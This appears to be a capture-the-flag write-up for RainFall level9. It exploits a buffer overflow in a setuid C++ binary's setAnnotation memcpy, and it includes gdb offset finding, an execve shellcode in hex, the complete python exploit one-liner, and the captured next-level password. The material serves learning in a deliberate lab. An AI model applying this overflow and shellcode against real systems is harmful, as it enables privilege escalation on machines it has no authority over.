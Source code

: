 # Level9

We can find an executable who do nothing yet
```
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 bla
level9@RainFall:~$ ./level9 bla bla
```
After analyze it with gdb we can find 5 interesting functions :
- N::N(int)
- N::setAnnotation(char*)
- N::operator+(N&)
- N::operator-(N&)
- main
This binary is written in cpp and there is no calls to `/bin/sh`, we can assume we'll have to use shellcode this time.  
We should use the `memcpy()` on argv[1] in `setAnnotation()` to make the call to `edx` calls a shellcode. Basically, this is a buffer overflow.  
First of all, find the offset :
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```
Thanks to the pattern generator we found that the offset of `eax` start at 108.  
Now we have the offset we can build our payload.  
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php)*  
In order to do that we must find the start address of our buffer and replace the value of `esp+0x10` by it to make the call of `edx` calls our shellcode. But, because we need to dereference twice like we want to access to the N class, our return address should points to an address which points to the start buffer :
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // buffer address
```
The value of [esp+0x10] will be replaced with 0x804a00c.  
Because we need to dereference again, this address will points to the beginning of our shellcode : 0x804a00x + 4 = 0x804a010.
```
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4
```
Our final exploit will look like :  
- python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"' 
```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ exit
level9@RainFall:~$ su bonus0
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
bonus0@RainFall:~$
```
Level9 passed!
